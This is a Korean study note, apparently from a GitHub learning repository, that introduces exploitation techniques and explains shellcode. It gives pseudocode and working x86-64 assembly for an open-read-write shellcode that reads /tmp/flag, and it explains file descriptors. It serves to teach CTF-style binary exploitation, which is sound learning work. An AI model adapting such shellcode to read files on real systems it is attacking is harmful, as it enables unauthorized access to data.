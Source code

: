 # Explit Tech  
익스플로잇(Exploit): 상대 시스템을 공격하는 것  
9가지 공격 기법 소개  

## 1. Shellcode  
익스플로잇을 위해 제작된 어셈블리 코드 조각  
셸을 획득하기 위한 목적으로 셸코드 사용  

해커가 rip를 자신이 작성한 셸코드로 옮길 수 있으면 해커는 원하는 어셈블리 코드가 실행되게할 수 있음  
어셈블리어는 기계어와 거의 일대일 대응, 사실상 원하는 모든 명령을 CPU에 내릴 수 있게 됨  

공격을 수행할 아키텍처, 운영체제, 셸코드의 목적에 따라 다르게 작성됨  
아키텍처 별로 자주 사용되는 셸코드 [모음집](http://shell-storm.org/shellcode/index.html)  

### orw(open-read-write)  
파일 읽고 쓰기  
파일을 열고, 읽은 뒤 화면에 출력해주는 셸 코드  

* /tmp/flag를 읽는 셸 코드  

의사 코드로 표현  
```
char buf[0x30];
int fd = open("/tmp/flag", RD_ONLY, NULL);
read(fd, buf, 0x30); 
write(1, buf, 0x30);
```

<img width="630" alt="image" src="https://user-images.githubusercontent.com/46364778/216364366-34989a78-3f5e-46ff-b48b-08062a80c03d.png">  

syscall의 반환값은 rax로 저장  

> fd란?  
> 파일 서술자(File Descriptor, fd)는 유닉스 계열의 운영체제에서 파일에 접근하는 소프트웨어에 제공하는 가상의 접근 제어자입니다.  
> 프로세스마다 고유의 서술자 테이블을 갖고 있으며, 그 안에 여러 파일 서술자를 저장합니다.  
> 서술자 각각은 번호로 구별되는데, 일반적으로 0번은 일반 입력(Standard Input, STDIN), 1번은 일반 출력(Standard Output, STDOUT), 2번은 일반 오류(Standard Error, STDERR)에 할당되어 있으며, 이들은 프로세스를 터미널과 연결해줍니다.    
> 그래서 우리는 키보드 입력을 통해 프로세스에 입력을 전달하고, 출력을 터미널로 받아볼 수 있습니다.  
> 프로세스가 생성된 이후, 위의 open같은 함수를 통해 어떤 파일과 프로세스를 연결하려고 하면, 기본으로 할당된 2번 이후의 번호를 새로운 fd에 차례로 할당해줍니다.  
> 그러면 프로세스는 그 fd를 이용하여 파일에 접근할 수 있습니다.  

```
;Name: orw.S

push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)

mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)

mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```  
